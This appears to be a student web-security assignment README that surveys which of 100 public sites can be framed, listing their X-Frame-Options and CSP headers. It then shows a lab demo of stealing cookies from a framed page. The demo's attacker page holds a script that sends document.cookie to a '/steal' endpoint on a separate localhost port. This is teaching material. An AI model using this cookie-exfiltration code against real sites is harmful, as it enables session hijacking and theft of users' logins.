


# Assignment 4

Sivakanesan Dhanushkanda

CS 495/595 Web Security

Spring 2022, ODU


## Which public sites are framable and non framable?


### Youtube Video

* https://youtu.be/9gY36noD-PQ


### List of files and folders

* Codes used
  * [The main HTML page](framable/code/main.html)
  * [Create HTML using Curl](framable/code/create_html_inputs.py)
  * [Node.js server](framable/code/server.js)
  * [Generating the CURL responses](framable/code/curl.py)
  * [Finding X-Frame options](framable/code/xframe.py)


* [framable](framable/html_files): 100 HTML files
* [Curl outputs](output): Curl responses are saved here
* [Summary of framability](framable/code/summary.csv)


### Steps

* The [template HTML page](framable/code/main.html) is used to generate the 100 HTML pages for the list of URLS assigned to me.

* The [create_html_inputs](framable/code/create_html_inputs.py) is used to create the 100 seperate HTML pages and save it in a seperate [folder](framable/html_files).

* [Curl](framable/code/curl.py) code is used to generate the CURL responses from the 100 assigned URLs to find the X-Frame options to create a summary.

* [Server](framable/code/server.js) is used to check the 100 framable HTML individually to see if the particular site is framable or not. The results are partly given in the [table](framable/code/summary.csv)

* To find the [X-Frame](framable/code/xframe.py) options, a script was used which iterates through the curl outputs and then generates a [table](framable/code/summary.csv)


### Framable sites

* 20minutos.es
* abcnews.go.com
* blog.google
* buydomains.com
* cointernet.com.co
* dreniq.com
* enable-javascript.com
* estadao.com.br
* fifa.com
* focus.de
* fortune.com
* giphy.com
* ig.com.br
* iso.org
* mashable.com
* mercurynews.com
* networkadvertising.org
* news.com.au
* nginx.org
* npr.org
* secureserver.net
* spiegel.de
* thesun.co.uk
* usnews.com
* wn.com
* wsj.com





### Non framable sites, and explanation on how the attempt was defeated


|URL                |X-Frame option(s)     |Explanation                                                                                                                                  |
|-------------------|----------------------|---------------------------------------------------------------------------------------------------------------------------------------------|
|                   |                      |                                                                                                                                             |
|aboutads.info      |['SAMEORIGIN']        |Refused to display 'https://youradchoices.com/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                 |
|afternic.com       |['SAMEORIGIN']        |Refused to display 'https://www.afternic.com/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                  |
|akamaihd.net       |[None]                |Failed to load resource: A server with the specified hostname could not be found, Curl failed with no response                               |
|amzn.to            |['SAMEORIGIN']        |Refused to display 'https://www.amazon.com/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                    |
|bbc.co.uk          |['DENY']              |Refused to load https://www.bbc.co.uk/ because it does not appear in the frame-ancestors directive of the Content Security Policy.           |
|bit.ly             |['DENY']              |Refused to display 'https://bitly.com/' in a frame because it set 'X-Frame-Options' to 'DENY'.                                               |
|bitly.com          |['DENY']              |Refused to display 'https://bitly.com/' in a frame because it set 'X-Frame-Options' to 'DENY'.                                               |
|boston.com         |['SAMEORIGIN']        |Refused to display 'https://www.boston.com/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                    |
|businessinsider.com|['SAMEORIGIN']        |Refused to display 'https://www.businessinsider.com/' in a frame because it set 'X-Frame-Options' to 'sameorigin'.                           |
|calendar.google.com|['SAMEORIGIN', 'DENY']|Failed to load resource: A server with the specified hostname could not be found.                                                            |
|cpanel.com         |['SAMEORIGIN']        |Refused to display 'https://www.cpanel.net/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                    |
|dailymotion.com    |['DENY']              |Refused to display 'https://www.dailymotion.com/' in a frame because it set 'X-Frame-Options' to 'deny'.                                     |
|de.wikipedia.org   |[None]                |Failed to load resource: A server with the specified hostname could not be found.                                                            |
|deezer.com         |['SAMEORIGIN']        |Refused to display 'https://www.deezer.com/us/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                 |
|depositfiles.com   |['SAMEORIGIN']        |Refused to display 'https://depositfiles.com/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                  |
|e-monsite.com      |['SAMEORIGIN']        |Refused to display 'https://www.e-monsite.com/' in a frame because it set 'X-Frame-Options' to 'sameorigin'.                                 |
|espn.com           |[None]                |Refused to load https://www.espn.com/ because it does not appear in the frame-ancestors directive of the Content Security Policy.            |
|express.co.uk      |['DENY']              |Refused to load https://www.express.co.uk/ because it does not appear in the frame-ancestors directive of the Content Security Policy.       |
|forbes.com         |['SAMEORIGIN']        |Refused to display 'https://www.forbes.com/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                    |
|fr.wikipedia.org   |[None]                |Failed to load resource: A server with the specified hostname could not be found.                                                            |
|gettyimages.com    |['SAMEORIGIN']        |Refused to display 'https://www.gettyimages.com/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                               |
|google.co.in       |['SAMEORIGIN']        |Refused to display 'https://www.google.co.in/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                  |
|google.co.jp       |['SAMEORIGIN']        |Refused to display 'https://www.google.co.jp/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                  |
|google.ru          |['SAMEORIGIN']        |Refused to display 'https://www.google.ru/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                     |
|gravatar.com       |['SAMEORIGIN']        |Refused to display 'https://en.gravatar.com/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                   |
|groups.yahoo.com   |['SAMEORIGIN']        |Refused to display 'https://www.yahoo.com/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                     |
|guardian.co.uk     |['SAMEORIGIN']        |Refused to display 'https://www.theguardian.com/us' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                             |
|icann.org          |['SAMEORIGIN']        |Refused to load https://www.icann.org/ because it does not appear in the frame-ancestors directive of the Content Security Policy.           |
|insider.com        |['SAMEORIGIN']        |Refused to display 'https://www.insider.com/' in a frame because it set 'X-Frame-Options' to 'sameorigin'.                                   |
|ipv4.google.com    |['SAMEORIGIN']        |Failed to load resource: A server with the specified hostname could not be found.                                                            |
|ja.wikipedia.org   |[None]                |Failed to load resource: A server with the specified hostname could not be found.                                                            |
|last.fm            |['SAMEORIGIN']        |Refused to display 'https://www.last.fm/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                       |
|linktr.ee          |['DENY']              |Refused to display 'https://linktr.ee/' in a frame because it set 'X-Frame-Options' to 'DENY'.                                               |
|maps.google.com    |[None]                |Failed to load resource: A server with the specified hostname could not be found.                                                            |
|mayoclinic.org     |['SAMEORIGIN']        |Refused to display 'https://www.mayoclinic.org/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                |
|mixcloud.com       |['SAMEORIGIN']        |Refused to display 'https://www.mixcloud.com/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                  |
|msn.com            |['SAMEORIGIN']        |Refused to display 'https://www.msn.com/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                       |
|nasa.gov           |[None]                |Refused to load https://www.nasa.gov/ because it does not appear in the frame-ancestors directive of the Content Security Policy.            |
|nature.com         |['DENY']              |Refused to display 'https://www.nature.com/' in a frame because it set 'X-Frame-Options' to 'DENY'.                                          |
|nbcnews.com        |['SAMEORIGIN']        |Refused to display 'https://www.nbcnews.com/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                   |
|netflix.com        |['DENY']              |Refused to display 'https://www.netflix.com/' in a frame because it set 'X-Frame-Options' to 'DENY'.                                         |
|nginx.com          |[None]                |Refused to load https://www.nginx.com/ because it does not appear in the frame-ancestors directive of the Content Security Policy.           |
|nih.gov            |['SAMEORIGIN']        |Refused to load https://www.nih.gov/ because it does not appear in the frame-ancestors directive of the Content Security Policy.             |
|nokia.com          |['SAMEORIGIN']        |Refused to load https://www.nokia.com/ because it does not appear in the frame-ancestors directive of the Content Security Policy.           |
|nypost.com         |[None]                |Refused to load https://nypost.com/ because it does not appear in the frame-ancestors directive of the Content Security Policy.              |
|offset.com         |['DENY']              |Refused to display 'https://www.offset.com/' in a frame because it set 'X-Frame-Options' to 'DENY'.                                          |
|opera.com          |['SAMEORIGIN']        |Refused to load https://www.opera.com/ because it does not appear in the frame-ancestors directive of the Content Security Policy.           |
|oracle.com         |['SAMEORIGIN']        |Refused to load https://www.oracle.com/index.html because it does not appear in the frame-ancestors directive of the Content Security Policy.|
|ovh.co.uk          |['SAMEORIGIN']        |Refused to display 'https://www.ovhcloud.com/en-gb/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                            |
|plesk.com          |['SAMEORIGIN']        |Refused to load https://www.plesk.com/ because it does not appear in the frame-ancestors directive of the Content Security Policy.           |
|policies.google.com|[None]                |Failed to load resource: A server with the specified hostname could not be found.                                                            |
|politico.com       |['SAMEORIGIN']        |Refused to display 'https://www.politico.com/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                  |
|rfi.fr             |['DENY']              |Refused to display 'https://www.rfi.fr/en/' in a frame because it set 'X-Frame-Options' to 'DENY'.                                           |
|ria.ru             |[None]                |Timed out, the website does not exist                                                                                                        |
|sapo.pt            |['SAMEORIGIN']        |Refused to display 'https://www.sapo.pt/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                       |
|search.google.com  |[None]                |Failed to load resource: A server with the specified hostname could not be found.                                                            |
|search.yahoo.com   |['DENY']              |Refused to load https://search.yahoo.com/ because it does not appear in the frame-ancestors directive of the Content Security Policy.        |
|shutterstock.com   |['SAMEORIGIN']        |Refused to display 'https://www.shutterstock.com/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                              |
|sites.google.com   |['SAMEORIGIN', 'DENY']|Refused to display 'https://sites.google.com/new' in a frame because it set 'X-Frame-Options' to 'DENY'.                                     |
|state.gov          |['SAMEORIGIN']        |Refused to display 'https://www.state.gov/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                     |
|steampowered.com   |['DENY']              |Refused to load https://store.steampowered.com/ because it does not appear in the frame-ancestors directive of the Content Security Policy.  |
|techcrunch.com     |['SAMEORIGIN']        |Refused to display 'https://techcrunch.com/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                    |
|ted.com            |['SAMEORIGIN']        |Refused to display 'https://www.ted.com/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                       |
|thoughtco.com      |[None]                |Refused to load https://www.thoughtco.com/ because it does not appear in the frame-ancestors directive of the Content Security Policy.       |
|timeout.com        |['DENY']              |Refused to load https://www.timeout.com/ because it does not appear in the frame-ancestors directive of the Content Security Policy.         |
|tinyurl.com        |['SAMEORIGIN']        |Refused to display 'https://tinyurl.com/app' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                    |
|tmz.com            |['SAMEORIGIN']        |Refused to display 'https://www.tmz.com/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                       |
|variety.com        |['DENY']              |Refused to load https://variety.com/ because it does not appear in the frame-ancestors directive of the Content Security Policy.             |
|welt.de            |['SAMEORIGIN']        |Refused to display 'https://www.welt.de/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                       |
|wiley.com          |[None]                |Refused to display 'https://www.wiley.com/en-us' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                |
|www.over-blog.com  |['DENY']              |Refused to display 'https://de.over-blog.com/' in a frame because it set 'X-Frame-Options' to 'DENY'.                                        |
|yahoo.co.jp        |[None]                |Refused to display 'https://www.yahoo.co.jp/' in a frame because it set 'X-Frame-Options' to 'SAMEORIGIN'.                                   |
|ytimg.com          |[None]                |Failed to load resource: A server with the specified hostname could not be found.                                                            |
|zendesk.com        |[None]                |Refused to load https://www.zendesk.com/ because it does not appear in the frame-ancestors directive of the Content Security Policy.         |


### Statistics

* Total number of sites: 100
* Number of framable sites: 26
* Number of non framable sites: 74


### How did the non framable sites defeat the attempt to frame them?

* Most of the sites give a SecurityError message when the [main.html](main.html) code had a snippet to show the error message: "Iframe is not loaded: SecurityError: Sandbox access violation: Blocked a frame at "file://" from accessing a cross-origin frame.  The frame being accessed is sandboxed and lacks the "allow-same-origin" flag."



* Out of the 74 non-framable sites, following were the numbers and header details of sites on how they defeated the attempt to be framed.
  * 15 sites set header to DENY
  * 40 sites set header to SAMEORIGIN
  * 2 sites set header to both DENY and SAMEORIGIN
  * 17 sites had no X-Frame headers

* There were 43 sites with no "X-Frame-Options" header, which included all the framable sites.
  
  
## Frame Path attack

### Youtube video

* https://youtu.be/ckBmTXw3H-g


### List of files and folders

* Codes used:
  * [Attacker server](frame-path-attack/attacker.js)
  * [Victim server](frame-path-attack/victim.js)
  * [HTML page with the victim site framed](frame-path-attack/files/html/cookie.html)


### Demonstrating how a parent page can steal cookies from an iframed page if only the Path attribute is used in ```Set-Cookie```


* In order to demonstrate this, used only the Path attribute in ```Set-Cookie```

* The server that hosts the attacker's site:

```
const express = require('express')
const {createReadStream} = require('fs')
const app = express()
const port = 8001

app.get('/', (req, res) => {
  createReadStream('files/html/cookie.html').pipe(res)
})

app.listen(port, () => {
  console.log(`Attacker listens at http://localhost:${port}`)
})

app.use(express.static('files'))
```


* The server that hosts the victim site:
  * Note: The Path attribute is set here to the cookie


```
const express = require('express')
const {createReadStream} = require('fs')
const app = express()
const port = 8002

app.get('/', (req, res) => {
  res.append('Set-Cookie', 'login=IAmIronMan; Path=/')
  res.send("<html><title>Victim Page</title><br><br>Demonstration on how the Path attribute alone is not sufficient<br><script>document.write(document.cookie)</script></html>")
})

app.listen(port, () => {
  console.log(`Victim listens at http://localhost:${port}`)
})
```


* The attacker's HTML running on http://localhost:8001/ contains an iframe that contains the HTML running on http://localhost:8002

```
<html>
<title>
Attacker Site! BEWARE!!!
</title>


<h1>Successfully stealing cookies</h1>
Skanda Siva, CS595 - Spring 2022, ODU
<br><br>
Demonstration of how a parent page can steal cookies from an iframed page if only the Path attribute is used in Set-Cookie.
<br><br>
<p>

<script>
    document.cookie = 'main=cookie'
    const iframe = document.createElement('iframe')
    iframe.src = 'http://localhost:8002/'
    document.body.appendChild(iframe)
    document.write(iframe.contentDocument.cookie)
    console.log(iframe.contentDocument.cookie)

    setTimeout(function() {
        const p = document.createElement('p')
        p.innerHTML = document.cookie   /*iframe.contentDocument.cookie */
        document.body.appendChild(p)
        new Image().src = 'http://localhost:5002/steal?cookie=' + document.cookie  /*iframe.contentDocument.cookie*/
}, 5000);
</script>

```


## References


https://syntaxfix.com/question/12368/http-status-code-0-error-domain-nsurlerrordomain

https://www.convertcsv.com/csv-to-markdown.htm

